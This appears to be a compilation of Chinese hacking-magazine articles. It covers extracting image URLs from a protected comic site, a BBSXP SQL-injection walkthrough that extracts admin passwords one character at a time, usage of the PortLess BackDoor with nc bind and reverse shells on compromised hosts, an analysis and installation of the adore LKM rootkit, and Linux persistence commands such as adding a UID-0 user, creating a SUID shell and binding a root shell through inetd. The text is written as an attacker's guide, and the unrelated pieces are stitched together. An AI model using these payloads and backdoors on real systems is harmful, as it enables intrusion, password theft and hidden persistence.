图1所示的网站就是一个相当不错的在线漫画网站，收录了十几部热门的长篇连载漫画，显示速度不错，宽带下只需两三秒就可显示一幅漫画图片。翻页功能完善，可以用鼠标和键盘进行翻页。另外还有一个独创的放大镜功能，可以进行局部放大，用来观看漫画中某些字体较小的对话很方便。由于漫画显示的大小受到显示区域的限制，系统还提供了全屏模式。

在线漫画一般都是禁止下载的，这个网站也不例外，连另存也不行。鼠标右键已经设定为向下翻页了，没法弹出菜单。在 Windows 2000/XP 下可以用系统提供的图片存盘功能保存，但是只能存为BMP格式，缺省文件名是“无标题”，还必须自己改文件名才行。用这种方式保存上千张图片，再将其重新压成JPG格式显然是不可能做的。

要想直接下载漫画，必须先找到漫画图片的URL地址，然后就可以用FlashGet、网络蚂蚁之类的下载工具下载了。首先分析一下这个在线漫画系统的页面HTML源代码，看看是否能够直接找到地址。由于右键菜单不能用，就选择主菜单中的“查看->源文件”，看到了页面源码。这个系统使用的是ASP和JavaScript，图片地址由下面的代码可以看出。

```javascript
<script language="javascript">
function imagenameabout()
{
  document.main.src="image.asp?lb=3x3第四十卷&move="+q;
  document.main.src="image.asp?lb=3x3第四十卷&move="+q;
  window.status="当前页是第"+(q+1)+"页";
}
```

这个JavaScript函数是用来改变漫画图片的，图片地址由 image.asp 给出，其参数有两个，lb指示漫画的哪一卷，q则是漫画图片的序号。将其改为一个数字后，直接访问会出现“非常规浏览该图片”等提示，说明 image.asp 会检测请求来源。如果不是该系统发出的请求就会转而显示这个信息。这样直接通过 image.asp 地址下载就不可行了，必须找到真实地址才可以。

既然浏览器可以正确显示出图片，那么浏览器必然得到了正确地址。虽然不能通过浏览器直接得到真实地址，用别的方法还是可以找到的。根据下载电影的经验，使用嗅探器应该可以。平常我都是用影片地址嗅探器来找电影下载地址的，但是它所嗅探的文件类型是预设的，不能自己添加，必须找通用的嗅探器才可以。对于这种简单的工作，没有必要动用 Iris 之类的专业嗅探软件，我选择了 Project URL Snooper 这个专门用来嗅探网络地址的工具。

下载安装 Project URL Snooper 的汉化版之后，启动它，在“常规选项”页面的适配器中选择一个驱动，注意不要勾选旁边的“只搜索这台计算机”选项，否则在开始搜索时会报错。再回到“搜索”页面中，点击“侦测网络”，就开始嗅探了（如图2）。回到在线漫画系统中，随便点击一页漫画，再切回 Project URL Snooper 中，看到真实地址了吧。把地址复制粘贴到浏览器地址栏里回车，漫画图片显示出来了。由于漫画图片的文件名都是按顺序编号的，只要知道一张图片的地址，就可以知道其它地址。可通过在线漫画系统右侧目录批量获取图片编号，再用下载工具（如 FlashGet）添加批量任务并按通配符下载。

漫画浏览时图片实际存放在缓存目录中。缓存文件夹中文件名与路径经过系统处理，可通过 Internet 属性与缓存目录定位到真实图片地址。IE 在不同系统中的缓存路径不同（如 WIN98、WIN2000/XP）。若缓存中文件过多，需先清空或刷新后再对比新增文件，即可快速定位目标漫画图片并复制其网络地址下载。

文中补充了更简便思路：直接利用浏览器缓存查找漫画真实地址；同时建议分卷下载，避免给服务器造成过大压力，影响其他用户浏览速度。

## 黑客新语

BBSXP 近期被发现可利用 SQL 注射的漏洞，作者以较通俗方式给出测试与利用思路。

#### 一、测试你所选的 BBSXP 有没有此漏洞

方法：先注册用户并进入后台控制面板，在收藏中加入任一网站；查看源文件，找到新增帖子的 `del&id` 参数（示例：`del&id=50`）。随后在浏览器中构造参数进行注入测试。

```text
favorites.asp?menu=del&id=50 and 1=1
```

#### 二、利用此漏洞猜测管理员密码位数

先找到版主管理员账号，再通过收藏项的 `del&id` 参数构造语句，判断目标用户名密码长度是否满足条件。

```text
favorites.asp?menu=del&id=51 and 1=(select count(*) from [user] where username='kawen' and len(userpass)='5')
```

说明：`del&id=51` 对应新收藏帖地址，通过改变条件可继续推断账号口令相关信息。`len(userpass)='5'` 就是密码为五位数。如果对方区长设置的密码为五位数，那么你新加入的这个收藏帖子（`del&id=51`）将会被删除……

`adminpassword` 是用来保存密码字段的，并且也是明文保存的。我们以此为突破口，在前面方法二和方法三基础上进行密码位数猜测和密码猜测。

#### 三、利用此漏洞拿到管理员密码

方法：区长的密码位数知道了，我们现在就可以来猜测密码是多少了。再一次到收藏中加一个网址，然后查看源代码中你建立的网址ID。输入以下命令……

```text
favorites.asp?menu=del&id=52 and 1=(select count(*) from [user] where username='KAWEN' and mid(userpass,1,1)='a')
```

解释一下，`mid(userpass,1,1)='a'` 意思为当区长 KAWEN 的第一位密码为 a 时，则删除你刚建立的收藏帖子……然后可依次改为 b、c 等继续猜测。

```text
favorites.asp?menu=del&id=53 and 1=(select count(*) from [user] where username='KAWEN' and mid(userpass,2,1)='a')
```

以此类推。每猜测一位密码都要在新建收藏中的帖子，然后查看此贴ID，再输入猜测命令。

```text
favorites.asp?menu=del&id=54 and 1=(select count(*) from [clubconfig] where len(adminpassword)=9)

favorites.asp?menu=del&id=55 and 1=(select count(*) from [clubconfig] where mid(adminpassword,1,1)='a')

favorites.asp?menu=del&id=56 and 1=(select count(*) from [clubconfig] where mid(adminpassword,2,1)='b')
```

以此类推，直到每猜测完一位即可删除相应帖子ID。利用注入就可以将整个 BBSXP 搞到手。

> **注意**：这是通过收藏帖子是否被删除来检测猜测密码位数及密码是否正确，所以每次测试完都必须在收藏夹中建立新的帖子……另外，实践中证明每个人的密码构成不同。

#### 四、利用此漏洞得到后台密码

在 BBSXP 数据库中 `clubconfig` 这个表中有一个字段……

## PortLess BackDoor

后门是 hacking 最重要的一个环节。现在网上的后门虽多，但精品不多。普通后门主要有以下几点不足：

- 体形庞大，有些超过100K以上，上传麻烦。
- 隐蔽性不好，端口容易被 `netstat -an` 等发现。
- 容易被杀毒软件查杀。
- 功能少，某些场景需要上传大量黑客软件。

以上就是一些后门的不足。最近我在网上找到一款后门程序名为“PortLess BackDoor”，测试后发现非常好：功能多、隐蔽性好、体积小且不易被杀毒软件查杀。

### 一、安装后门

PortLess BackDoor 只有两个文件：`portlessinst.exe`、`svchostdll.dll`。两个文件总计约20K，安装简便，拷贝至目标 `system32` 目录后可通过3389、tftp、ftp等方式配合使用。

下图是我的一台肉鸡，我用 tftp 把后门的两个文件传到 `c:\winnt\system32` 下。上传完毕后开始安装。该后门的安装方法是：

```text
Portlessinst.exe -install ActiveString Password
```

其中 ActiveString 的意思就是连接那系统打开的端口后输入的验证字符串。字符串可以随便指定。Password 的意思就是你给这个后门指定的密码，这样防止后门被其他“黑人”利用。我在安装的时候指定的验证字符为：zihuan，密码为：ziHUAN。

```text
Portlessinst.exe install zihuan ziHUAN
```

如果提示相应信息就说明后门安装成功了。接下来执行命令 `net start iprip`（启动后门让肉鸡每次系统重启必备自动加载），都执行无误的话就可以使用后门了。

### 三、远控后门

PortLess BackDoor 的连接和以前的后门有点不太一样。PortLess BackDoor 平时是不开放任何端口的。需要使用的时候要先激活一下后门。这样做隐蔽性大大提高了很多。

#### 1、正向连接

首先要使用黑客界的军刀 NC 来连接肉鸡的任何一个开放端口。我一般连接80端口，因为一台服务器不可能不开放web端口。除非管理员吃错了药。使用命令：`nc -vv 210.83.xxx.xxx 80`。然后输入“验证字符串:端口”。由于刚才我指定了 zihuan 作为验证字符，所以要这样写：`zihuan:99`，在肉鸡上开99端口的shell。

当然了，这个端口你可以随便指定。然后再用 `nc -vv 210.83.xxx.xxx 99` 连接99端口的shell，输入密码以后就进入了后门。

进入后门以后在 `[Syrinx]#` 的提示符下输入 `shell` 就得到了一个 cmdshell。下面该做什么不用我再多说了吧？呵呵。注意：该后门支持端口重用技术，如果把 shell 绑定在80端口上可以穿透防火墙。

#### 2、反向连接

目前一些主机都开放了防火墙。这样开端口连接 cmdshell 就不行了，容易被防火墙过滤。PortLess BackDoor 还提供了反向连接 shell 的功能。这样可以穿透一些防火墙。下面我就给大家介绍一下 PortLess BackDoor 反向连接的方法。

首先先用 `nc -vv -l -p` 命令在本地监听一个端口。然后用 `nc -vv 210.xxx.xxx.xxx 80` 输入验证字符、你的IP（你用 nc 监听的99端口）。我的IP是 `218.61.xxx.xxx`，输入命令 `zihuan|218.61.xxx.xxx:99`。然后输入 `shell`，这样又得到了一个 cmdshell。

这样的确是可以穿透有些防火墙的。以上就是 PortLess BackDoor 的基本功能。怎么样，是不是不错？

### 三、辅助功能

- CheckClone — 功能：检测克隆账户
- CleanEvent — 功能：删除系统日志
- Clone — 功能：克隆账户
  - 用法：`Clone 账户 要克隆的账户 密码`
  - 例子：`Clone Admin Guest test`
- DelUser — 功能：删除一个用户
  - 用法：`DelUser 用户名`
  - 例子：`DelUser Test`
- Exit — 功能：退出后门
- `http://ip/文件名 保存文件名` — 功能：下载程序
  - 例子：`http://11.11.11.11/a.exe a.exe`
  - 例子：`http://www.xxx.com/a.exe a.exe`
  - 例子：`http://www.xxx.com:81/a.exe a.exe`
- Installterm 端口 — 功能：安装终端服务
- ListIP — 功能：显示系统所有IP
- Logoff — 功能：注销系统
- PowerOff — 功能：关闭电源
- Reboot — 功能：重启系统
- ShutDown — 功能：关闭系统
- Shell — 功能：得到一个 Cmd Shell
- Sysinfo — 功能说明：查看系统信息
- TerminalPort — 功能：查看终端服务端口
- TerminalPort 新的端口 — 功能：重新设置终端服务端口

> 注意：新端口必须是合法端口，否则程序会返回错误。

以上就是 PortLess BackDoor 的其他功能。使用都很简单而且还实用。

### 一、简介

Adore 是 TESO 出品的一款 LKM 后门。LKM（Loadable Kernel Module）为系统提供额外功能。文中介绍了 adore/adore-ng 的背景、原理与版本差异，以及在 2.2.x、2.4.x、2.6.x 内核上的支持情况。

虽然对 2.6.x 的支持并不是很完善，但是始终已经开始支持了。我们不仅要知道怎么用，还要大概明白它怎么实现的。Adore 的源代码包括以下文件：

```text
CVS
Changelog
LICENSE
Makefile.gen
README
TODO
adore.c
adore.h
ava.c
cleaner.c
configure
dummy.c
gcc-test.c
libinvisible.c
libinvisible.h
redme.c
startadore
```

网络上有一些关于 adore 的文档，说得比较清楚，不过那是以前的版本。新版本已经有一些变化，有些函数本文也没有重复叙述了。

## 2. adore 模块

前面我们讲过，adore rootkit 的核心部分是 adore.o 模块。在这个模块中，通过伪造一些系统调用，实现了进程的隐藏/重现、目录的隐藏/重现、控制进程（ava）的验证以及后门的隐藏等功能。这个模块中的函数大体可以分为：

- 伪造的系统调用  
  adore rootkit 使用如下函数替代真正的系统调用：`n_getdents`, `n_getdents64`, `n_fork`, `n_clone`, `n_kill`, `n_write`, `n_close`, `n_mkdir`, `n_oldstat`, `n_oldlstat`, `n_stat`, `n_lstat`, `n_stat64`, `n_lstat64`, `n_open`。这些函数基本都是真正相关系统调用的封装。

- 模块的初始化、卸载函数（`init_module`、`cleanup_module`）  
  执行 adore 模块的初始化（使用伪造系统调用替代原来的系统调用）和卸载模块的清理工作（恢复原始系统调用等）。

- 木马函数  
  包括：`hide_process`、`remove_process`、`unhide_process`、`strip_invisible`、`unstrip_invisible`。这些函数通过修改指定进程的进程控制块（`task_struct`）中的某些信息，实现进程的隐藏、删除和重现功能。

- 其它辅助函数和宏  
  包括函数：`my_atoi`、`my_find_task`、`is_invisible`、`is_secret`、`is_secret64`、`fp_put`、`fp_get`；宏：`REPLACE`、`RESTORE`。

```c
REPLACE(fork);
REPLACE(clone);
REPLACE(close);
REPLACE(mkdir);
REPLACE(ptrace);
REPLACE(exit);

/* 修改内核伪系统调用表(sys-call-table)，使用伪造的系统调用替代真正的系统调用 */
#ifdef __NR_getdents64
REPLACE(getdents64)
#endif

...

cleanup_module 函数
这个函数在 adore 模块被卸载时，使用 RESTORE 宏重新恢复真正的系统调用。
```

#### 2.1 adore 模块的初始化和卸载函数

adore 的初始化函数 `init_module` 代码：

```c
int init_module(void)
{
    struct task_struct *p = current;
    struct proc_dir_entry *pde = NULL;
    ...
    #define REPLACE(x) o_##x = sys_call_table[__NR_##x]; \
                       sys_call_table[__NR_##x] = n_##x

    REPLACE(getdents);
    REPLACE(kill);
    ...
}
```

### 2.2.1 hide_process / unhide_process / remove_process

这三个函数用来隐藏（`hide_process`）以及重现（`unhide_process`）/删除（`remove_process`）进程。adore 在 Linux 的进程控制块（`task_struct`，在 `include/linux/sched.h` 文件中定义）的进程标志域（`task_struct.flags`）引入了两个进程标志：`PF_INVISIBLE` 和 `PF_AUTH`。当用户执行有关进程的系统调用时，伪造的系统调用就会检查相关进程的进程控制块标志域的这两个标志是否已经设置，从而判断是否执行针对这个进程的操作。下面我们看一下 `remove_process` 的源代码。

```c
remove_process

int remove_process(pid_t pid)
{
    struct task_struct *p;

    if (pid <= 1)
        return -1;

    if (p->p_cptr != NULL)
        return -1;

    REMOVE_LINKS(p);
    ...
}
```

### 2.2.2 strip_invisible()、unstrip_invisible() 函数

`strip_invisible()` 函数的作用是从 `/proc` 文件系统中隐藏进程目录。在 `/proc` 文件系统中没有 `pid=0` 的进程（swapper 进程）……目录。这个函数利用这一点，把进程 PID 修改为 0，实现了在 /proc 文件系统中隐藏进程的目的，原来的进程号（pid）则被保存在了进程控制块的 exit_code 域中；unstrip_invisible() 函数执行相反的操作，在 /proc 文件系统中恢复进程的显示。adore 的这种处理方式可以在一定程度上提高 n_getdents 和 n_getdents64 两个函数的速度。

## 2.3.1 伪造的系统调用

在 adore 模块中，实现了一些有关进程和文件/目录操作的系统调用，通过这些伪造的系统调用达到隐藏自己的目的。

### 2.3.1.1 有关进程的系统调用

SIGINVISIBLE、SIGVISIBLE 和 SIGREMOVE，在 adore.h 头文件中，定义了三个信号 SIGINVISIBLE、SIGVISIBLE 和 SIGREMOVE，adore 通过这三个信号实现进程的隐藏、重现和删除。

### n_fork

用来替代 fork 系统调用，首先对执行这个系统调用的进程进行检查，如果这个进程是隐藏的，其子进程也必须隐藏。

```c
int n_fork(struct pt_regs regs)
{
    pid_t pid;
    int hide = 0;

    if (is_invisible(current->pid))
        ++hide;

    pid = o_fork(regs);
    if (hide && pid >= 0)
        hide_proc(pid);

    return pid;
}
```

### n_clone

封装 Linux 特有的系统调用 sys_clone，执行流程和 n_fork 几乎完全相同，只是用 o_clone 代替 o_fork。

### n_kill

封装 kill 系统调用。  
代码：

```c
int n_kill(pid_t pid, int sig)
{
    struct task_struct *p;
    int ret = 0;

    if ((sig == SIGINVISIBLE || sig == SIGVISIBLE || sig == SIGREMOVE)
        && sig == SIGREMOVE)
        ...

    return ret;
}
```

```c
if ((current->flags & PF_AUTH) != PF_AUTH)
{
    ret = -ESRCH;
    goto out;
}

if ((p = my_find_task(pid)) == NULL)
{
    ret = -ESRCH;
    goto out;
}

if (current->uid && current->euid)
{
    ret = -EPERM;
    goto out;
}

if (sig == SIGINVISIBLE)
    hide_proc(pid);
else if (sig == SIGREMOVE)
    ret = remove_process(pid);
else
    unhide_proc(pid);

out:
    return ret;
```

## 2.3.2 有关文件/目录的系统调用

### redirfile 结构

redirfile 结构保存文件重定向信息。通过文件的重定向，可以轻松地逃避数据完整性检测工具的检测。例如：攻击者使用自己的 ls 命令代替了 /bin/ls 文件，把原来的文件保存为 /tmp/ls，那么以后所有对 /bin/ls 文件的操作都被重定向到了 /tmp/ls。这时，你可能会有疑问，既然文件被重定向，那么我们执行木马命令 /bin/ls 时，是不是同样也会被重定向到 /tmp/ls 来执行系统原来的命令？这倒不必担心，execve 类系统调用是在内核空间，它们不会使用用户空间的 open 等系统调用，因此执行木马程序时，是不会被重定向的。

关于文件重定向，adore 的实现方式并不是很完善，可能会有更好的方式：

### PELITE_CMD、ADORE_KEY 和 ELITE_UID

在介绍有关的函数之前，需要介绍几个应该在编译之前设置的常量：ELITE_CMD、ADORE_KEY 和 ELITE_UID。ELITE_CMD 用来向 adore 模块传递控制指令（见 n_close）；ELITE_UID 设置 adore rootkit 所有文件的属主（见 is_secret）；而 ADORE_KEY 用来对使用 adore 功能的进程进行验证（见 n_mkdir）。

### HIDDEN_SERVICES

在 adore.h 文件中定义的这个常量也需要在使用 adore 时，根据实际情况进行修改。HIDDEN_SERVICES 被 n_write 函数用来阻止 netstat 输出后门端口。格式（可以参考 netstat 的输出）：

```c
/* 服务名(或端口) */ NULL
...
for (n_write) ...
```

## 黑客新语

```
检查当前进程是否是 netstat；
把所有包含 HIDDEN_SERVICES 里面设置的字符串的输出行过滤掉；
调用真正的 sys_write(o_write)，输出通过检查的信息。
```

### n_close

这个函数也是 adore 中比较重要的一个函数。它除了能够调用执行正常的 sys_close(o_close) 关闭文件描述符之外，还有提升执行进程权限、卸载 adore 模块和检查 adore 模块是否运行的功能。

## 3. cleaner 模块

adore rootkit 使用 cleaner 模块来隐藏 adore 模块。cleaner 模块利用 init_module 函数中的两行程序，把 adore 模块从 module_list 中删除，实现了隐藏 adore 模块的目的：

```c
if (__this_module.next)
    __this_module.next = __this_module.next->next;
```

这种实现方式非常简单而有效，但是未免过于粗暴，太不精巧了。它破坏了系统内核的数据结构，很可能造成系统的崩溃。而且这其中很显然存在一些竞争条件，必须在安装了 adore 模块之后，紧接着安装 cleaner 模块才能实现隐藏 adore 的目的。作者在发布的源代码中也提供了一个叫做 startadore 的脚本。这个脚本实际上只有三行：

```sh
insmod adore.o
insmod cleaner.o
rmmod cleaner
```

## 4. adore rootkit 的控制程序 ava

ava 是 adore rootkit 的控制程序，用户可以使用 ava 来控制 adore 模块的行为。ava 支持以下选项：

```text
Usage: ./ava <h|s|r|R|u|i|v> [file, PID or dummy (for U)]

h 隐藏文件 (hide file)
s 显现文件 (show file)
r 以 root 的权限运行一个程序 (execute as root)
R 永远删除一个进程 (remove PID forever)
U 卸载 adore 模块 (uninstall adore)
i 隐藏一个进程 (make PID invisible)
v 让一个进程出现 (make PID visible)
```

## 5. adore 安装以及应用

从网络上 wget 下来，tar zxvf 解压开。ls 看下面有什么东西（如图1）。

```sh
ebook:/home/eong/adore# ls
CVS  Makefile.gen  adore.c  cleaner.c  gcc-test.c  rename.c
Changelog  README  adore.h  configure  libinvisible.c  startadore
LICENSE  TODO  ava.c  dummy.c  libinvisible.h
ebook:/home/eong/adore#
```

运行 configure（如图2），`./configure` 叫你输入进程验证密码，随便输入一个（图3）。提示修改 adore.h（如图4），那就修改吧，`nano -w adore.h`。用你喜欢的编辑器，我用的是 nano（如图5）。adore 版本不一样的话，略有不同。把 HIDDEN_SERVICES 下面的 2222、7350 改成你需要隐藏的服务端口，比如你的后门端口什么的，也可以添加。然后 make（如图6）。

```sh
ebook:/home/eong/adore# ./configure
...（配置输出）...
Password (echoed):
```

```text
Since version 0.33 Adore requires 'authentication' for its services...
Password (echoed):
```

```text
Preparing /home/eong/adore for hiding ...
Creating Makefile ...
*** Edit adore.h for the hidden services ***
```

```c
#include ADORE_KEY
#define HIDDEN_SERVICES[] = {2222, 7350, 0}
...（在编辑器中修改 adore.h）...
```

```sh
ebook:/home/eong/adore# make
rm -f adore.o
cc ... -c adore.c -o a
cc ... -c cleaner.c
ebook:/home/eong/adore#
```

紧接着 `./startadore`（如图7）报错，内核版本没有完全吻合。

```sh
ebook:/home/eong/adore# ./startadore
adore.o: kernel-module version mismatch
cleaner.o: kernel-module version mismatch
rmmod: module cleaner is not loaded.
```

手动操作，加上了 `-f` 参数（如图8）。`nano -w startadore`。rmmod 是没有 `-f` 参数的，结果我也加了，后来改好了。

```sh
#!/bin/sh
insmod -f adore.o
insmod -f cleaner.o
rmmod cleaner
```

运行 startadore 就是图9 那样子。

```sh
ebook:/home/eong/adore# ./startadore
warning: kernel-module version mismatch
        adore.o was compiled for kernel version 2.4.18
        while this kernel is version 2.4.18-bf2.4
Warning: loading adore.o will taint the kernel: no license
Warning: loading adore.o will taint the kernel: forced load
insmod: a module named cleaner already exists
...
```

图9

`./startadore` 会有一些 warning 出现。不过没关系，我们找一个文件测试一下 adore 是否正常（如图10）。

```sh
ebook:/home/eong/adore# ls /home/eong/
DX8iNTHcs.exe    fo                 stage3-x86-20040204.tar.bz2
a.pl             foo.c              test
abol             foo                test.c
abol.c           foo.c              toto
abolexp          linux-2.6.3.tar.bz2 toto.c
abolexp.c        openssl-too-open   tc
adore            openssl-too-open.tar.gz vlogger.tar
adore-0.53.tgz   portage-20040219.tar.bz2 vloggers
adore-ng-0.31.tgz shell.c           webscan-0.1.0
adv.pl           snr.tar.gz         webscan_0.1.0.tar.gz
exe              sql.c              yex-phpnuke.sh
exe.c            ssh-brute.sh
```

图10

就拿 shell.c 做个实验好了（如图11），看来是成功隐藏了（如图12）。

```text
Usage: ./ava {h,u,r,R,i,v,U} {file, PID or dummy (for U)}

h hide file
u unhide file
x execute as root
R remove PID forever
U uninstall adore
i make PID invisible
v make PID visible

ebook:/home/eong/adore# ./ava h /home/eong/shell.c
Checking for adore 0.12 or higher ...
Adore 0.53 installed. Good luck.
File '/home/eong/shell.c' hidden.
```

图11

```sh
ebook:/home/eong/adore# cd ..
ebook:/home/eong# ls
DX8iNTHcs.exe    exe.c              ssh-brute.sh
a.pl             fo                 stage3-x86-20040204.tar.bz2
abol             fo.c               test
abol.c           foo                test.c
abolexp          foo.c              toto
abolexp.c        linux-2.6.3.tar.bz2 toto.c
adore            openssl-too-open   tc
adore-0.53.tgz   openssl-too-open.tar.gz vlogger.tar
adore-ng         portage-20040219.tar.bz2 vloggers
adore-ng-0.31.tgz snr               webscan-0.1.0
adv.pl           snr.tar.gz         webscan_0.1.0.tar.gz
exe              sql.c              yex-phpnuke.sh
```

图12

通过 ava 还可以隐藏进程，我就不再啰嗦了。顺便说一下，chkrootkit 似乎识别不出最新版的 adore。可是如果就像我这样安装的话，lsmod 还是可以看到的。人的智慧是无限的，lsmod 显示的名字自然是可以改的。大家自己琢磨吧，什么都说出来就不好玩了。

另外，装 adore 的时候很可能碰到很多问题，这个时候可以读一读 README，最好是能看懂源代码，并对其做一定的修改。

如果说入侵是一门技术，那么后门技术则是更高一层的艺术。严格地说，入侵并不是什么难事，由于网络资源的共享，很多 SCRIPT BOYS 很容易拿到现成的攻击程序，并能很轻易地找到脆弱主机，仅仅需要输入几个简单的字符，就可以瞬间进入某台服务器，获取其完全操纵权，为所欲为。机警的网络管理员一般都能很快发现异常，迅速切断黑手来源，用最快的速度检查并且恢复系统，打上相应的补丁，把黑客拒于门外。黑客为什么想成为服务器的 ROOT 用户？原因无非是想使用他人的网络、CPU、硬盘，得到别人的数据，或者纯粹出于无聊，想搞破坏而已。如果你入侵的动机基于前面 4 种，那么，如何逃过机警管理员的眼睛，并且在你需要的时候重回到你入侵过的某台主机上，是你必须面对的问题。

Windows 下的后门技术已经比较成熟了，以前个人比较欣赏的就是 http://www.sunx.org/htm/mysoft.htm 上面提供的 AttachDoor 工具集，包括 EXE 文件插入 DLL、进程插入 DLL、进程注入 Shell。后来又出现了很多优秀的后门，比如小榕的 BITS、WineggDrop 的同名后门。Windows 后门技术发展到了空前的一个高度，这里就不再细细评论了。我们下面要谈的是 Linux 下的后门技术，其中结合了本人入侵中积累的一些经验。

### 最好的也是最常见的：弱口令

Linux 主机一般都提供了 Telnet 服务，便于用户远程登录主机，处理自己的事务。这样虽然方便了 ROOT 的远程管理，同时也方便了黑客的入侵。由于安全环（Ring of Security）的使用，根用户是无法远程直接使用 Telnet 的；入侵者就得突破两层安全环（普通用户和根用户）的限制。笔者的第一次是通过 WU-FTP 溢出成功进入某台 Linux 主机的，进入后确认管理员不在线，首要任务就是取得 SHADOW 文件，传到本地，用 JOHN 花了 5 分钟跑出了几个普通用户的弱密码，然后再花了些时间跑出了 ROOT 的密码。个人觉得这个是最稳妥的后门技术。当完全擦除入侵时留下的痕迹后，管理员是无法察觉到你的存在的，入侵者又完全掌握了两层口令，日后的重返不是什么难题。只要对方没有更改口令，你随时都可以长驱直入 :)

这种办法虽然安全，没有更改系统任何设置，可是很被动——一旦正常用户口令到期，并且更换了口令，入侵者就得另谋出路了。

## 先谈谈 Linux 的口令验证技术

Linux 口令加密机制源于 DES，通常使用 56 位密钥加密 64 位文本块。传统的 crypt() 函数把用户口令填充到 8 个字符，并用每个字符的 7 位形成一个 56 位的 DES key。该 key 被用来对 64 位的零块（00000000）进行加密。加密结果再次用该 key 加密，重复 25 次。最终结果是一个 11 位的字符串，写到 /etc/passwd 或 /etc/shadow 中。为了使基于 DES 的加密能...

## 黑路新语

为更有效地抵御字典攻击，增加了“盐”值，在 0～4095 之间，用来搅乱 DES 算法，使得同样的明文因“盐”的不同而密文不同。为了安全，现在的 Linux 都提供了 /etc/shadow 这个影子文件，密码放在这个文件里面，并且只有 root 可读。

**Linux 分 3 类用户：root、普通用户、系统用户**。系统用户不属于任何人，他们有特定用途，例如 LP、GAME、NOBODY 等。（记住：无论是首次入侵还是为日后重返考虑，这类用户也可能成为你的突破口：root 很容易忽略这些用户的变化，这些用户本身也可能存在默认口令。）下面来分析一下 /etc/passwd 文件，它的每个条目有 7 个域，分别是：名字、密码、用户 ID、组 ID、用户信息、主目录、shell。

```text
root:x:0:0:root:/root:/bin/bash

root:$1$PJgoGp$UStNuLrPUp/HeJ./wyD8oVZ0:12342:0:99999:7:::
```

了解了 Linux 口令认证技术和密码文件的结构，为了重返肉鸡，于是一些人做出了大胆的举动：更改 /etc/passwd 和 /etc/shadow 文件，包括添加一般用户和特权用户，或者修改上面提到的系统用户。`echo "CIEL::0:0::/:/bin/sh" >> /etc/passwd` 因为这个用户的 UID=0，这样就添加了一个叫 CIEL 的 root 级用户。相应地，如果修改一个已经存在的用户，把他的 UID 设置成 0，这样更加隐蔽。

但是由于已经更改了系统文件，只要管理员足够警觉，就可以断绝入侵者的后路。于是入侵者想到了一个系统工具：crontab。他们可以定时添加/删除一个特权用户或者一个后门 shell 程序，这样可以解决容易被发现的问题，并且可以在每天特定时间内进行攻击。

- Linux 远程登录提供的不止是 Telnet，还有 RSH 和 RLOGIN 等基于用户 `.rhosts` 文件的认证方法，于是入侵者可以修改 `.rhosts` 为以后的重返铺平道路。
- 修改 login。login 程序通常用来对 telnet 来的用户进行口令验证，入侵者获取 login.c 的源代码并修改，使它在比较输入口令与存储口令时先检查后门口令。
- 随着网络技术发展，越来越多的人意识到 R 系列命令的不安全性，ssh 广泛应用，但若把公钥写入目标机器的 `authorized_keys`，也可免密码登录。
- 设置 SUID 程序。比如拷贝修改 shell 程序。

```text
#cp /bin/ksh /tmp/.sh
#chown root:root /tmp/.sh
#chmod +s /tmp/.sh
```

当入侵者下次用普通用户身份登录进系统后，直接运行修改并被隐藏在某处的 shell 程序后，就可以直接获取 root 权限。总结上面 3 种技术，可以简称为服务后门。甚至 finger、ftp、inetd 等都可以被修改成后门。

```text
# echo "ingreslock stream tcp nowait root /bin/sh sh -i" >> /tmp/.x
# /usr/sbin/inetd -s /tmp/.x
```

这样就在目标主机 1524 端口绑定了一个 root shell（Bind Shell）。这种技术有一定缺陷：任何人都可能利用你开的端口轻松进入你的肉鸡；管理员也容易发现；新一代扫描器 AMAP 能快速扫描开放端口并发现 Bind Shell。从上面第 2 种替换系统文件思路发展出来的后门技术最终导致了 Rootkit 的产生。Linux 不像 Windows 存在文件保护措施，root 级用户可随意替换系统常用程序命令。

确切地来说，Rootkit 是一套用来迷惑管理员、嗅探目标敏感数据、监听他人网络对话、提供后门的工具集。成熟的 Rootkit 会包含远程后门和本地后门。此外还提供一套常用程序来替换系统原有程序、用以欺骗管理员，包括 ps、ls 等命令。

| 程序 | 说明 |
|---|---|
| bindshell | port/shell type daemon |
| chfn | Trojaned, User->root |
| chsh | Trojaned, User->root |
| crontab | Trojaned, Hidden Crontab Entries |
| du | Trojaned, Hide files |
| find | Trojaned, Hide files |
| ifconfig | Trojaned, Hide sniffing |
| inetd | Trojaned, Remote access |
| killall | Trojaned, Won't kill hidden processes |
| linsniffer | Packet sniffer |
| login | Trojaned, Remote access |
| ls | Trojaned, Hide files |
| netstat | Trojaned, Hide connections |
| passwd | Trojaned, User->root |
| pidof | Trojaned, Hide processes |
| ps | Trojaned, Hide processes |
| rshd | Trojaned, Remote access |
| sniffchk | Program to check if sniffer is up and running |
| syslogd | Trojaned, Hide logs |
| tcpd | Trojaned, Hide connections, avoid denies |

```text
top        trojaned: "Hide processes"
wted       /tmp/vi /tmp/.editor/...
z2         zap2, utmp, wtmp, lastlog, craser
```

当某个黑客连接到肉鸡，恰好此时管理员运行被替换了的 netstat，屏幕上不会显示出真实连接情况。于是，管理员就不会意识到此刻正有一个入侵者和他同处一室。

## 与 Rootkit 有关系的还有另外一种后门技术：校验和及时间戳后门

早期入侵者用自己的 trojan 程序替代系统文件，系统管理员便依靠时间戳和系统校验和判断程序是否被改。入侵者又发展出让 trojan 文件和原文件时间戳同步的技术：先改系统时钟，再调整 trojan 文件时间，最后把系统时间调回。

有没想过利用 25 号端口留后门？通过修改邮件服务器配置文件也能达到目的。Sendmail.cf 是常见目标，只要加入 WIZ 命令，外人就可由 25 号端口直接进入系统。

如果肉鸡开放了 Web 服务，入侵者可通过 80 号端口留后门。即使只拿到 NOBODY 权限，也可通过预留后门、本地溢出等进一步获取更高权限，事后切断 cmdshell 并清理痕迹。

## 不同的网络协议后门（包括 TCP、UDP、ICMP 后门）

TCP 后门（如 Bind Shell）较易被 netstat 发现，也易被防火墙过滤。UDP 后门常伪装成类似 DNS 的报文，容易穿越配置较宽松的防火墙，UDP 因素是常被忽视的风险。

ICMP 后门因其并非传统监听端口，隐蔽性更强。攻击者可将数据封装在 ping 的 ICMP 包中形成隐蔽通道；管理员若不做包内容审计，很难发现。

Loki/lokid（客户端/服务端）是实施该类攻击的常见工具。攻击者在内网主机植入 lokid，通过 ICMP/UDP 分组与外部客户端交互，实现命令执行与结果回传。

## 破坏文件系统后门：可以用来存放大量数据

入侵者可在硬盘上划出隐藏区域并伪装为“坏扇区”，从而存放隐蔽文件。管理员通常难以察觉其存在，常规工具也不易发现。

对于一般管理员，很难意识到这类“坏扇区”文件系统确实存在。类似 Rootkit 里的 du、ls 程序也可起到隐藏文件的效果。

